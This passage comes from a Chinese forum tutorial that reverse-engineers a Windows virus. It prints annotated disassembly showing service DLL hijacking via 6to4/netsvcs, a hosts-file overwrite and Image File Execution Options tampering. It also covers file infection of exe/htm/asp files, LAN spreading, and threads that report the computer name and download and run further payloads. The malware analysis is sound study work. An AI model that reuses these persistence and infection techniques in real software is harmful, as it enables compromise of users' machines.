00401926   .  C2 0400       retn    4  
  
上面的代码，先判断版本信息，然后将 C:\\Windows\\system32\\6to4.dll 转换成 WideChar,在调用 sfc.dll 中的一个函数 sfc.76B81206,我跟踪了一下这个函数，发现里面调用了很多内核函数，然后有分配和释放堆栈的操作，具体做什么，小弟也不懂，请高人指点~  
  
后面的操作一样，打开 6to4.dll 写入资源数据~~然后进行相同的操作~~~我就不多说了~~  
  
其实大家可以注意到了这个程序，好像还进行了一循环工作~~我们来看看这句~~  
004010F0   .  FF75 F0       push    dword ptr \[ebp-10\]               ; /hKey  
004010F3   .  FF15 10204000 call    \[<&ADVAPI32.RegCloseKey>\]        ; \\RegCloseKey  
004010F9   .  837D E8 01    cmp     dword ptr \[ebp-18\], 1  
004010FD   .  75 7D         jnz     short 0040117C         ----->当我们正常关闭 SvChost 中 netsvcs 时程序跳转到我们前面的执行，可是当我们如果关闭失败，比较 6to4 这个服务正在运行时，会执行什么呢？我在调试的时候，将\[ebp-18\]中的内容改为了 01，然后程序继续向下执行~~~  
00401105   .  50            push    eax                              ; /Arg3  
00401106   .  8D85 58FEFFFF lea     eax, \[ebp-1A8\]                   ; |  
0040110C   .  50            push    eax                              ; |Arg2  
0040110D   .  8D85 B0F9FFFF lea     eax, \[ebp-650\]                   ; |  
00401113   .  50            push    eax                              ; |Arg1 = 6to4  
00401114   .  E8 F0090000   call    00401B09                         ; \\tem81\_ex.00401B09  
  
将 6to4 和分配的两个内存空间做为参数，然后调用 00401B09，跟据我的跟踪结果发现它在做如下工作：  
它是在查找 netsvcs 服务下的项：  
6to4 AppMgmt AudioSrv Browser CryptSvc DMServer DHCP ERSvc EventSystem FastUserSwitchingCompatibility  
HidServ Ias Iprip Irmon LanmanServer LanmanWorkstation Messenger Netman Nla Ntmssvc NWCWorkstation Nwsapagent  
Rasauto Rasman Remoteaccess Schedule Seclogon SENS Sharedaccess SRService Tapisrv Themes TrkWks W32Time WZCSVC  
Wmi WmdmPmSp winmgmt wscsvc xmlprov BITS wuauserv ShellHWDetection helpsvc WmdmPmSN  
判断这些项的注册表中哪项注册表项中 ServiceDLL 这项的值与系统目录下的 DLL 的值是否相同，如果不相同，则停止这个服务的运行，然后返回~~  
  
然后在做相同的操作~~~~  
  
  
总体来说这个样本主要使用的方法为：服务替换，将服务的 ServiceDLL 替换成自己生成的 DLL~~~在替换前后进行了一些操作吧了~~  
  
好了，这样一个程序就被我们分析完成了，程序运行之后，会自动删除~~  
  
下面，我们来分析一下它替换用的 DLL，都在做哪些工作~~还是像上次那样静态分析~~  
经我们上面的分析，它只是将资源中的文件完整写入 DLL 中，并没有做其它的工作，我于是可以这样做~~  
  
用 eXeScope 打开 Crack.exe，如图所示，会在资源中出现一个名叫 FILE 的资源~~  
  
我们选中它，直接点导出，保存为 file.dll，其实前面我们也可以将前面生成的 6to4.dll 用 IDA 分析，两个文件是一样的~~~  
  
还是老规矩吧~~  
  
PEID 查壳~~是 UPX 的壳~~~不用我再说一遍了吧，用前面我说的方法，进行脱壳，或参考看雪《加密与解密第三版》中的手工脱壳~~~  
  
我脱出来的 DLL，我保存为 Crack.dll  
  
  
将 Crack.dll 放到 IDA 分析之~~~我这里就不分析了，基本上就是那几个操作，简单说一下，有兴趣的朋友，可以用 IDA 看看~~  
  
  
这里我简单的分析一下吧~~大家可以自己分析看看~~我就不分析了，太累了~~  
我主要想看看这里面中的一段代码：  
.text:1000339C loc\_1000339C:                           ; DATA XREF: .rdata:10006D20o  
.text:1000339C                 mov     esp, \[ebp+var\_18\]  
.text:1000339F                 or      \[ebp+var\_4\], 0FFFFFFFFh  
.text:100033A3  
.text:100033A3 loc\_100033A3:                           ; CODE XREF: sub\_1000332A+6Cj  
.text:100033A3                 push    0               ; lpThreadId  
.text:100033A5                 push    0               ; dwCreationFlags  
.text:100033A7                 push    0               ; lpParameter  
.text:100033A9                 push    offset sub\_10003F33 ; lpStartAddress   --->连接到一个网址并发送一些数据计算机名  
.text:100033AE                 push    0               ; dwStackSize  
.text:100033B0                 push    0               ; lpThreadAttributes  
.text:100033B2                 call    ds:CreateThread  
.text:100033B8                 push    0               ; lpThreadId  
.text:100033BA                 push    0               ; dwCreationFlags  
.text:100033BC                 push    0               ; lpParameter  
.text:100033BE                 push    offset sub\_100018D7 ; lpStartAddress   --->从指定的网址下载一个文件，保存在临时目录下的 TempLocal.txt,并通过这个文件进行相关下载  
.text:100033C3                 push    0               ; dwStackSize  
.text:100033C5                 push    0               ; lpThreadAttributes  
.text:100033C7                 call    ds:CreateThread  
.text:100033CD                 mov     \[ebp+hHandle\], eax  
.text:100033D0                 push    0               ; lpThreadId  
.text:100033D2                 push    0               ; dwCreationFlags  
.text:100033D4                 push    0               ; lpParameter  
.text:100033D6                 push    offset sub\_10003A8D ; lpStartAddress  ---->创建 WmiSvc.sys,添加 WmiSvc 服务  
.text:100033DB                 push    0               ; dwStackSize  
.text:100033DD                 push    0               ; lpThreadAttributes  
.text:100033DF                 call    ds:CreateThread  
.text:100033E5                 push    0               ; lpThreadId  
.text:100033E7                 push    0               ; dwCreationFlags  
.text:100033E9                 push    0               ; lpParameter  
.text:100033EB                 push    offset sub\_10004618 ; lpStartAddress  ---->HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution 在这个注册项中进行一些操作  
  
.text:100033F0                 push    0               ; dwStackSize  
.text:100033F2                 push    0               ; lpThreadAttributes  
.text:100033F4                 call    ds:CreateThread  
.text:100033FA  
.text:100033FA loc\_100033FA:                           ; CODE XREF: sub\_1000332A+109j  
.text:100033FA                 xor     eax, eax  
.text:100033FC                 inc     eax  
.text:100033FD                 jz      short loc\_10003435  
.text:100033FF                 call    ds:GetTickCount  
.text:10003405                 mov     \[ebp+var\_134\], eax  
.text:1000340B                 mov     eax, \[ebp+var\_134\]  
.text:10003411                 xor     edx, edx  
.text:10003413                 mov     ecx, 3E8h  
.text:10003418                 div     ecx  
.text:1000341A                 xor     edx, edx  
.text:1000341C                 push    3Ch  
.text:1000341E                 pop     ecx  
.text:1000341F                 div     ecx  
.text:10003421                 cmp     eax, 3  
.text:10003424                 jb      short loc\_10003428  
.text:10003426                 jmp     short loc\_10003435  
.text:10003428 ; ---------------------------------------------------------------------------  
.text:10003428  
.text:10003428 loc\_10003428:                           ; CODE XREF: sub\_1000332A+FAj  
.text:10003428                 push    3E8h            ; dwMilliseconds  
.text:1000342D                 call    ds:Sleep  
.text:10003433                 jmp     short loc\_100033FA  
.text:10003435 ; ---------------------------------------------------------------------------  
.text:10003435  
.text:10003435 loc\_10003435:                           ; CODE XREF: sub\_1000332A+D3j  
.text:10003435                                         ; sub\_1000332A+FCj  
.text:10003435                 push    104h            ; Size  
.text:1000343A                 push    0               ; Val  
.text:1000343C                 lea     eax, \[ebp+Dst\]  
.text:10003442                 push    eax             ; Dst  
.text:10003443                 call    memset  
.text:10003448                 add     esp, 0Ch  
.text:1000344B                 push    104h            ; uSize  
.text:10003450                 lea     eax, \[ebp+Dst\]  
.text:10003456                 push    eax             ; lpBuffer  
.text:10003457                 call    ds:GetSystemDirectoryA  
.text:1000345D                 push    offset aDriversEtcHost ; "\\\\drivers\\\\etc\\\\hosts"  
.text:10003462                 lea     eax, \[ebp+Dst\]  
.text:10003468                 push    eax             ; lpString1  
.text:10003469                 call    ds:lstrcatA  
.text:1000346F                 push    0               ; hTemplateFile  
.text:10003471                 push    80h             ; dwFlagsAndAttributes  
.text:10003476                 push    3               ; dwCreationDisposition  
.text:10003478                 push    0               ; lpSecurityAttributes  
.text:1000347A                 push    3               ; dwShareMode  
.text:1000347C                 push    0C0000000h      ; dwDesiredAccess  
.text:10003481                 lea     eax, \[ebp+Dst\]  
.text:10003487                 push    eax             ; lpFileName  
.text:10003488                 call    ds:CreateFileA    ------>生成系统目录+\\\\drivers\\\\etc\\\\hosts  
.text:1000348E                 mov     \[ebp+hObject\], eax  
.text:10003491                 mov     \[ebp+lpBuffer\], offset a127\_0\_0\_1Local ; "127.0.0.1       localhost\\r\\n"  
.text:10003498                 push    0               ; lpOverlapped  
.text:1000349A                 lea     eax, \[ebp+NumberOfBytesWritten\]  
.text:1000349D                 push    eax             ; lpNumberOfBytesWritten  
.text:1000349E                 push    \[ebp+lpBuffer\]  ; lpString  
.text:100034A1                 call    ds:lstrlenA  
.text:100034A7                 push    eax             ; nNumberOfBytesToWrite  
.text:100034A8                 push    \[ebp+lpBuffer\]  ; lpBuffer  
.text:100034AB                 push    \[ebp+hObject\]   ; hFile  
.text:100034AE                 call    ds:WriteFile  //写入数据  
.text:100034B4                 push    \[ebp+hObject\]   ; hFile  
.text:100034B7                 call    ds:SetEndOfFile  
.text:100034BD                 push    \[ebp+hObject\]   ; hObject  
.text:100034C0                 call    ds:CloseHandle  
.text:100034C6                 push    104h            ; Size  
.text:100034CB                 push    0               ; Val  
.text:100034CD                 push    offset ExistingFileName ; Dst  
.text:100034D2                 call    memset  
.text:100034D7                 add     esp, 0Ch  
.text:100034DA                 push    104h            ; uSize  
.text:100034DF                 push    offset ExistingFileName ; lpBuffer  
.text:100034E4                 call    ds:GetSystemDirectoryA  
.text:100034EA                 push    offset aDllcacheSystem ; "\\\\dllcache\\\\systembox.bak"  
.text:100034EF                 push    offset ExistingFileName ; lpString1  
.text:100034F4                 call    ds:lstrcatA  
.text:100034FA                 and     \[ebp+var\_138\], 0  
.text:10003501                 jmp     short loc\_10003510  
.text:10003503 ; ---------------------------------------------------------------------------  
.text:10003503  
.text:10003503 loc\_10003503:                           ; CODE XREF: sub\_1000332A+244j  
.text:10003503                 mov     eax, \[ebp+var\_138\]  
.text:10003509                 inc     eax  
.text:1000350A                 mov     \[ebp+var\_138\], eax  
.text:10003510  
.text:10003510 loc\_10003510:                           ; CODE XREF: sub\_1000332A+1D7j  
.text:10003510                 cmp     \[ebp+var\_138\], 64h  
.text:10003517                 jge     short loc\_10003570  
.text:10003519                 push    0               ; hTemplateFile  
.text:1000351B                 push    80h             ; dwFlagsAndAttributes  
.text:10003520                 push    3               ; dwCreationDisposition  
.text:10003522                 push    0               ; lpSecurityAttributes  
.text:10003524                 push    0               ; dwShareMode  
.text:10003526                 push    80000000h       ; dwDesiredAccess  
.text:1000352B                 push    offset ExistingFileName ; lpFileName  
.text:10003530                 call    ds:CreateFileA  ---------------->用我们在前面保存主程序的 systembox.bak  
.text:10003536                 mov     \[ebp+hFile\], eax  
.text:1000353C                 cmp     \[ebp+hFile\], 0FFFFFFFFh  
.text:10003543                 jz      short loc\_10003566  
.text:10003545                 push    0               ; lpFileSizeHigh  
.text:10003547                 push    \[ebp+hFile\]     ; hFile  
.text:1000354D                 call    ds:GetFileSize  
.text:10003553                 mov     nNumberOfBytesToWrite, eax  
.text:10003558                 push    \[ebp+hFile\]     ; hObject  
.text:1000355E                 call    ds:CloseHandle  
.text:10003564                 jmp     short loc\_10003570  
.text:10003566 ; ---------------------------------------------------------------------------  
.text:10003566  
.text:10003566 loc\_10003566:                           ; CODE XREF: sub\_1000332A+219j  
.text:10003566                 push    64h             ; dwMilliseconds  
.text:10003568                 call    ds:Sleep  
.text:1000356E                 jmp     short loc\_10003503  
.text:10003570 ; ---------------------------------------------------------------------------  
.text:10003570  
.text:10003570 loc\_10003570:                           ; CODE XREF: sub\_1000332A+1EDj  
.text:10003570                                         ; sub\_1000332A+23Aj  
.text:10003570                 cmp     nNumberOfBytesToWrite, 0  
.text:10003577                 jbe     loc\_10003672  
.text:1000357D                 cmp     nNumberOfBytesToWrite, 0FFFFFFFFh  
.text:10003584                 jz      loc\_10003672  
.text:1000358A                 push    0               ; hTemplateFile  
.text:1000358C                 push    80h             ; dwFlagsAndAttributes  
.text:10003591                 push    3               ; dwCreationDisposition  
.text:10003593                 push    0               ; lpSecurityAttributes  
.text:10003595                 push    1               ; dwShareMode  
.text:10003597                 push    80000000h       ; dwDesiredAccess  
.text:1000359C                 push    offset ExistingFileName ; lpFileName  
.text:100035A1                 call    ds:CreateFileA  
.text:100035A7                 mov     hFile, eax  
.text:100035AC                 push    0               ; lpName  
.text:100035AE                 push    0               ; dwMaximumSizeLow  
.text:100035B0                 push    0               ; dwMaximumSizeHigh  
.text:100035B2                 push    2               ; flProtect  
.text:100035B4                 push    0               ; lpFileMappingAttributes  
.text:100035B6                 push    hFile           ; hFile  
.text:100035BC                 call    ds:CreateFileMappingA  
.text:100035C2                 mov     hFileMappingObject, eax  
.text:100035C7                 push    0               ; dwNumberOfBytesToMap  
.text:100035C9                 push    0               ; dwFileOffsetLow  
.text:100035CB                 push    0               ; dwFileOffsetHigh  
.text:100035CD                 push    4               ; dwDesiredAccess  
.text:100035CF                 push    hFileMappingObject ; hFileMappingObject  
.text:100035D5                 call    ds:MapViewOfFile  
.text:100035DB                 mov     lpBuffer, eax  
.text:100035E0                 cmp     dword\_10008454, 0  
.text:100035E7                 jz      short loc\_10003607  
.text:100035E9                 cmp     lpBuffer, 0  
.text:100035F0                 jz      short loc\_10003607  
.text:100035F2                 push    0               ; lpThreadId  
.text:100035F4                 push    0               ; dwCreationFlags  
.text:100035F6                 push    0               ; lpParameter  
.text:100035F8                 push    offset sub\_1000311F ; lpStartAddress --->查找目录下的 exe,htm,html,asp,aspx,rar  
.text:100035FD                 push    0               ; dwStackSize  
.text:100035FF                 push    0               ; lpThreadAttributes  
.text:10003601                 call    ds:CreateThread  
.text:10003607  
.text:10003607 loc\_10003607:                           ; CODE XREF: sub\_1000332A+2BDj  
.text:10003607                                         ; sub\_1000332A+2C6j  
.text:10003607                 cmp     dword\_10008460, 0  
.text:1000360E                 jz      short loc\_10003628  
.text:10003610                 push    0               ; lpThreadId  
.text:10003612                 push    0               ; dwCreationFlags  
.text:10003614                 push    offset aLan     ; "LAN"  
.text:10003619                 push    offset sub\_10005265 ; lpStartAddress --->读写与删除文件操作  
.text:1000361E                 push    0               ; dwStackSize  
.text:10003620                 push    0               ; lpThreadAttributes  
.text:10003622                 call    ds:CreateThread  
.text:10003628  
.text:10003628 loc\_10003628:                           ; CODE XREF: sub\_1000332A+2E4j  
.text:10003628                 cmp     dword\_1000845C, 0  
.text:1000362F                 jz      short loc\_10003646  
.text:10003631                 push    0               ; lpThreadId  
.text:10003633                 push    0               ; dwCreationFlags  
.text:10003635                 push    0               ; lpParameter  
.text:10003637                 push    offset sub\_100058E1 ; lpStartAddress --->查找 Ghost.exe.bak 文件删除  
.text:1000363C                 push    0               ; dwStackSize  
.text:1000363E                 push    0               ; lpThreadAttributes  
.text:10003640                 call    ds:CreateThread  
.text:10003646  
.text:10003646 loc\_10003646:                           ; CODE XREF: sub\_1000332A+305j  
.text:10003646                 push    0FFFFFFFFh      ; dwMilliseconds  
.text:10003648                 push    \[ebp+hHandle\]   ; hHandle  
.text:1000364B                 call    ds:WaitForSingleObject  
.text:10003651                 cmp     dword\_10008464, 0  
.text:10003658                 jz      short loc\_10003672  
.text:1000365A                 push    0               ; lpThreadId  
.text:1000365C                 push    0               ; dwCreationFlags  
.text:1000365E                 push    offset aInternet ; "Internet"  
.text:10003663                 push    offset sub\_10005265 ; lpStartAddress --->进行 LAN 的一些操作  
.text:10003668                 push    0               ; dwStackSize  
.text:1000366A                 push    0               ; lpThreadAttributes  
.text:1000366C                 call    ds:CreateThread  
.text:10003672  
.text:10003672 loc\_10003672:                           ; CODE XREF: sub\_1000332A+24Dj  
.text:10003672                                         ; sub\_1000332A+25Aj ...  
.text:10003672                 cmp     dword\_10008468, 0  
.text:10003679                 jz      short loc\_100036A4  
.text:1000367B                 push    1  
.text:1000367D                 movzx   eax, word\_10008450  
.text:10003684                 push    eax  
.text:10003685                 call    sub\_1000116C  
.text:1000368A                 cmp     eax, 1  
.text:1000368D                 jnz     short loc\_100036A4  
.text:1000368F                 push    0               ; lpThreadId  
.text:10003691                 push    0               ; dwCreationFlags  
.text:10003693                 push    0               ; lpParameter  
.text:10003695                 push    offset sub\_10005ACB ; lpStartAddress --->  
.text:1000369A                 push    0               ; dwStackSize  
.text:1000369C                 push    0               ; lpThreadAttributes  
.text:1000369E                 call    ds:CreateThread  
.text:100036A4  
.text:100036A4 loc\_100036A4:                           ; CODE XREF: sub\_1000332A+34Fj  
.text:100036A4                                         ; sub\_1000332A+363j  
.text:100036A4                 cmp     dword\_1000846C, 0  
.text:100036AB                 jz      short loc\_10003728  
.text:100036AD                 lea     eax, \[ebp+SystemTime\]  
.text:100036B3                 push    eax             ; lpSystemTime  
.text:100036B4                 call    ds:GetLocalTime  
.text:100036BA  
.text:100036BA loc\_100036BA:                           ; CODE XREF: sub\_1000332A+3FCj  
.text:100036BA                 xor     eax, eax  
.text:100036BC                 inc     eax  
.text:100036BD                 jz      short loc\_10003728  
.text:100036BF                 lea     eax, \[ebp+var\_14C\]  
.text:100036C5                 push    eax             ; lpSystemTime  
.text:100036C6                 call    ds:GetLocalTime  
.text:100036CC                 movzx   eax, \[ebp+var\_144\]  
.text:100036D3                 movzx   ecx, \[ebp+SystemTime.wHour\]  
.text:100036DA                 sub     eax, ecx  
.text:100036DC                 cmp     eax, dword\_1000846C  
.text:100036E2                 jl      short loc\_1000371B  
.text:100036E4                 mov     ax, \[ebp+var\_144\]  
.text:100036EB                 mov     \[ebp+SystemTime.wHour\], ax  
.text:100036F2                 push    1  
.text:100036F4                 movzx   eax, word\_10008450  
.text:100036FB                 push    eax  
.text:100036FC                 call    sub\_1000116C  
.text:10003701                 cmp     eax, 1  
.text:10003704                 jnz     short loc\_1000371B  
.text:10003706                 push    0               ; lpThreadId  
.text:10003708                 push    0               ; dwCreationFlags  
.text:1000370A                 push    0               ; lpParameter  
.text:1000370C                 push    offset sub\_10005ACB ; lpStartAddress  --->运行临时目录下的 Newtemp\_387.exe  
.text:10003711                 push    0               ; dwStackSize  
.text:10003713                 push    0               ; lpThreadAttributes  
.text:10003715                 call    ds:CreateThread  
.text:1000371B  
.text:1000371B loc\_1000371B:                           ; CODE XREF: sub\_1000332A+3B8j  
.text:1000371B                                         ; sub\_1000332A+3DAj  
.text:1000371B                 push    0EA60h          ; dwMilliseconds  
.text:10003720                 call    ds:Sleep  
.text:10003726                 jmp     short loc\_100036BA  
.text:10003728 ; ---------------------------------------------------------------------------  
.text:10003728  
.text:10003728 loc\_10003728:                           ; CODE XREF: sub\_1000332A+381j  
.text:10003728                                         ; sub\_1000332A+393j ...  
.text:10003728                 xor     eax, eax  
.text:1000372A                 inc     eax  
.text:1000372B                 jz      short loc\_1000373A  
.text:1000372D                 push    2710h           ; dwMilliseconds  
.text:10003732                 call    ds:Sleep  
.text:10003738                 jmp     short loc\_10003728  
.text:1000373A ; ---------------------------------------------------------------------------  
.text:1000373A  
.text:1000373A loc\_1000373A:                           ; CODE XREF: sub\_1000332A+401j  
.text:1000373A                 xor     eax, eax  
.text:1000373C                 mov     ecx, \[ebp+var\_10\]  
.text:1000373F                 mov     large fs:0, ecx  
.text:10003746                 pop     edi  
.text:10003747                 pop     esi  
.text:10003748                 pop     ebx  
.text:10003749                 leave  
.text:1000374A                 retn    4  
.text:1000374A sub\_1000332A    endp  
  
上面我只做了简单的分析，大家可以根据我的思路，慢慢分析一下这个 DLL，我这里就不详解了~~有不清楚的在讨论吧~~  
  
当我在写完这篇文章时，我无间之间搜索一个函数的时候，发现原来这个病毒 09 年 8 月份被 UPX 上的一个人分析过~~嘿嘿~~我就当补充一下了~~http://www.unpack.cn/thread-38976-1-1.html  
  
要玩病毒：思想有多远，你就可以走多远~~~  
睡了~~写一篇给新手的文章，很累，好了，以后有时间再写给大家吧~~

上传的附件
|  || 分析.rar  
 |